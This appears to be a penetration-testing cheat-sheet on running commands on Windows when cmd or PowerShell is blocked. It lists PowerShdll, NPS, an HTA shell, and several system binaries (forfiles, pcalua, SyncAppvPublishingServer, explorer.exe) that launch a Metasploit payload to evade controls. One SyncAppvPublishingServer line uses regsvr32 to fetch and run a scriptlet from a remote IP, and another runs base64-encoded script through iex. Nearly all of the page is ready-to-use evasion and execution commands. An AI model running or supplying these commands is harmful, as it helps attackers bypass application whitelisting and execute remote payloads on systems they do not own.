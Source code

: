 ```yaml
---
description: Different options to cmd and powershell
---
```


# Alternatives to command prompt

## HTA Shell

its text, so you could copy paste the text into notepad, save as a "shell.hta" using the quotes to enforce file extension 

then file open on notepad right click the shell.hta and open 

Code: [https://raw.githubusercontent.com/nccgroup/OneLogicalMyth\_Shell/master/OneLogicalShell.hta](https://raw.githubusercontent.com/nccgroup/OneLogicalMyth_Shell/master/OneLogicalShell.hta)

## Powershell Alternatives

### PowerShdll

Link: 

[https://github.com/p3nt4/PowerShdll](https://github.com/p3nt4/PowerShdll) 

#### Example: 

`rundll32.exe PowerShdll.dll,main` 

#### dll mode: 

```text
rundll32 PowerShdll,main <script> 
rundll32 PowerShdll,main -h      Display this message 
rundll32 PowerShdll,main -f <path>       Run the script passed as argument 
rundll32 PowerShdll,main -w      Start an interactive console in a new window (Default) 
rundll32 PowerShdll,main -i      Start an interactive console in this console 
```

If you do not have an interactive console, use -n to avoid crashes on output 

Alternatives \(Credit to SubTee for these techniques\): 

```text
x86 - C:\Windows\Microsoft.NET\Framework\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U PowerShdll.dll 
x64 - C:\Windows\Microsoft.NET\Framework64\v4.0.3031964\InstallUtil.exe /logfile= /LogToConsole=false /U PowerShdll.dll 
x86 C:\Windows\Microsoft.NET\Framework\v4.0.30319\regsvcs.exe PowerShdll.dll 
x64 C:\Windows\Microsoft.NET\Framework64\v4.0.30319\regsvcs.exe PowerShdll.dll 
x86 C:\Windows\Microsoft.NET\Framework\v4.0.30319\regasm.exe /U PowerShdll.dll 
x64 C:\Windows\Microsoft.NET\Framework64\v4.0.30319\regasm.exe /U PowerShdll.dll 
regsvr32 /s  /u PowerShdll.dll -->Calls DllUnregisterServer 
regsvr32 /s PowerShdll.dll --> Calls DllRegisterServer 
```

####  exe mode 

Usage: 

```text
PowerShdll.exe <script> 
PowerShdll.exe -h      Display this message 
PowerShdll.exe -f <path>       Run the script passed as argument 
PowerShdll.exe -i      Start an interactive console in this console (Default) 
```

Examples 

Run base64 encoded script 

`rundll32 Powershdll.dll,main [System.Text.Encoding]::Default.GetString([System.Convert]::FromBase64String("BASE64")) ^| iex` 

### PowerLine

Link: [https://github.com/fullmetalcache/PowerLine ](https://github.com/fullmetalcache/PowerLine%20)

### NPS

Not PowerShell - When powershell is blocked 

Link:  [https://github.com/Ben0xA/nps](https://github.com/Ben0xA/nps) 

#### Usage 

```text
nps.exe "{powershell single command}" 
nps.exe "& {commands; semi-colon; separated}" 
nps.exe -encodedcommand {base64_encoded_command} 
nps.exe -encode "commands to encode to base64" 
nps.exe -decode {base64_encoded_command} 
```

**Single Commands:** 

```text
 c:\Downloads>nps.exe Get-Date 
 12/18/2015 2:19:37 PM 
```

## CMD Alternatives

### cmd.dll

[https://blog.didierstevens.com/2010/02/04/cmd-dll/](https://blog.didierstevens.com/2010/02/04/cmd-dll/)

Example:

`rundll32.exe cmd.dll,main` 

### forfiles

The “forfiles” is a command utility which can select multiple files and run a command on them. It is typically used in batch jobs but it could be abused to execute an arbitrary command or an executable. The parameters “/p” and “/m” are used to perform a search in the windows directory “System32” and on the mask “calc.exe” even though the default search mask is \*. Anything after the “/c” parameter is the actual command that is executed.

`forfiles /p c:\windows\system32 /m calc.exe /c C:\tmp\metasploit.exe`

Credit:[https://pentestlab.blog/2020/07/06/indirect-command-execution/](https://pentestlab.blog/2020/07/06/indirect-command-execution/)

### pcalua

The program compatibility assistant is a windows utility that runs when it detects a software with compatibility issues. The utility is located in “C:\Windows\System32” and can execute commands with the “-a” argument.

`pcalua.exe -a C:\tmp\metasploit.exe`

### SyncAppvPublishingServer

The “SyncAppvPublishingServer” initiates the Microsoft application virtualization \(App-V\) publishing refresh operation. However it can be used as a non-directly method to execute commands for evasion. In the example below the execution occurs from PowerShell and the “Start-Process” cmdlet is used to run the executable.

`SyncAppvPublishingServer.vbs "n; Start-Process C:\tmp\metasploit.exe"`

It is also possible to execute a malicious payload from a remote location by using the “regsvr32” method since the “SyncAppvPublishingServer” will execute anything that is enclosed in the double quotes.

```text
SyncAppvPublishingServer.vbs "Break; regsvr32 /s /n /u /i:http://192.168.254.158:8080/jnQl1FJ.sct scrobj.dll"
```

### explorer.exe

The “explorer.exe” can be utilized as a method of execution. Furthermore, the executed payload will create a process on the system that will have as a parent process “explore.exe” instead of “cmd.exe“.

```text
explorer.exe C:\tmp\metasploit.exe 
explorer.exe /root,"C:\tmp\metasploit.exe" 
```

